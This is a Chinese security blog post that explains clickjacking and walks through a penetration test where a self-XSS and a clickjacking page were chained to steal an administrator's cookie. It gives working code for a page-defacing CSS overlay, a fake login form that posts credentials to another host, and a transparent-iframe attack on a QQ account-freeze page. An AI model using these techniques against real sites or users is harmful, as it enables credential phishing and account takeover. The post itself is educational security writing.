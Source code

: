 ```yaml
---
layout: post
author: Vulkey_Chen
title: "鸡肋点搭配ClickJacking攻击-获取管理员权限"
date: 2017-12-20
permalink: /archives/2017-12-20/1
description: "笔者挖到了一个selfxss，在思考之后想起了ClickJacking，于是结合之..."
---
```


# 前言

有一段时间没做测试了，偶尔的时候也会去挖挖洞。本文章要写的东西是我利用`ClickJacking`拿下管理员权限的测试过程。但在说明过程之前，先带大家了解一下`ClickJacking`的**基本原理以及简单的漏洞挖掘**。

# ClickJacking

ClickJacking背景说明:

> ClickJacking（点击劫持）是由互联网安全专家罗伯特·汉森和耶利米·格劳斯曼在2008年首创的。
> ClickJacking是一种视觉欺骗攻击手段，在web端就是iframe嵌套一个透明不可见的页面，让用户在不知情(被欺骗)的情况下，点击攻击者想要欺骗用户点击的位置。

说道视觉欺骗，相信有`炫技`经验的朋友们一定会想到，自己一个后台拿不下Webshell权限的时候，而想要黑掉首页从而达到炫技，使用的是什么呢？没错一般使用CSS样式表来劫持首页以造成黑掉的假象~

```html
<table style="left: 0px; top: 0px; position: fixed;z-index: 5000;position:absolute;width:100%;height:300%;background-color: black;"><tbody><tr><td style="color:#FFFFFF;z-index: 6000;vertical-align:top;"><h1>hacked by key</h1></td></tr></tbody></table>
```

![CSS jacking](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x00.png)

除了可以炫技，CSS劫持可以做的东西也有很多：例如经典的form表单钓鱼攻击

```html
<table+style="left:+0px;+top:+0px;+position:+fixed;z-index:+5000;position:absolute;width:100%;background-color:white;"><tr><td><form action="http://192.168.0.109/login.php" method="post">账号：<input type="text" name="name"><br>密码：<input type="password" name="pwd"><br><input type="submit" value="登陆"></form><td></tr></table>
```

![CSS jacking](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x01.png)

这里就不对代码的意思进行解读了，可以看到CSS劫持达到的视觉欺骗攻击效果还是比较LOW的，因为这样的攻击手段偏被动式。而我要说的点击劫持其实也算是被动式，不过相对来说比较容易获得信任让被动式触发，这里只是单单对攻击手法谁的成功率比较高作为比较

前面背景介绍的时候说了，点击劫持攻击其实就是镶嵌一个iframe框架(**存在点击劫持漏洞的页面**)在页面上，然后再把其修改为透明的样式。这样的操作只是造成了视觉欺骗，还没达到欺骗点击的效果，所以就需要知道iframe框架其按钮的位置，然后在基于透明层模拟一个位置大小相同的按钮，发给用户让其点击~~

这里以QQ安全中心的一个点击劫持为例，作为一个QQ的资深用户应该知道QQ是有安全中心紧急冻结QQ服务的，只要登录自己的安全中心就可以冻结，**地址(漏洞地址，目前漏洞已经修复)**为：<https://aq.qq.com/cn2/message_center/wireless/wireless_seal_auth?source_id=2985>

![QQ Click Jacking](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x02.png)

一点击，你的QQ就被会冻结(当时不知道逗了多少人~)，那这样怎么利用呢？

1.建立iframe框架:

```html
<iframe id="frame" src="https://aq.qq.com/cn2/message_center/wireless/wireless_seal_auth?source_id=2985"></iframe>
```

2.建立iframe的CSS样式:

```css
#frame {
    border: 0px; /*边框属性为0*/
    height: 100%; /*框架高度100%*/
    width: 100%; /*框架宽度100%*/
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
```

3.获取iframe框架引用的原页面的按钮位置和大小:

大小直接通过审查元素可以看得到:

![QQ Click Jacking](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x03.png)

现在要获取的就是按钮元素到浏览器顶部的距离，这里通过`id.offsetTop`有些时候是无法直接获取的:

> \>\>span_verify.offsetTop
> ←16

获取到的是16~很醉，所以使用如下的方法直接获取:

```javascript
document.getElementById('span_verify').getBoundingClientRect().top
```

![QQ Click Jacking](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x04.png)
4.建立按钮:

```html
<input type="button" class="button" value="Click" />
```

5.根据第三步骤获取到的建立按钮样式:

```css
.button {
    position: fixed;
    width: 100%;
    height: 42px;
    margin: 0 auto;
    left: 0;
    right: 0;
    display: block;
    top: 278px;
} 
```

6.散播，用户中招:
![QQ Click Jacking](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x05.png)
![QQ Click Jacking](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x06.png)

## 一次点击劫持攻击案例

说了这么多，在前几天的测试中我是如何拿到管理员权限呢？挖掘到一处self-xss，这里先说明下self-xss可以理解为只能攻击myself~

发现流程:

**发现输入框->秉着见框就X的原理插入XSS Payload->弹框->发现成功**

然而获取到的URL链接是`/?keyword=<script>alert(1)</script>`，但是不是xss，keyword的值显示在输入框内，需要你再点击`搜索标题按钮`才可以触发漏洞。

**形成的攻击思路->iframe嵌套漏洞URL链接->Click Jacking攻击页面构造->通过留言给管理员引诱触发**

![Click Jacking](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-12-20/0x07.png)

攻击页面构造流程其实耐心读到这里的朋友已经是非常明确步骤了:

**建立iframe框架->建立iframe框架CSS样式->获取按钮位置大小->建立按钮->建立按钮CSS样式->留言板留言外网攻击链接->获取管理员Cookie->Cookie伪造进入后台**

# 结尾

一次很有意思的实践，让自己满满的成就感，同时也完成了项目任务~
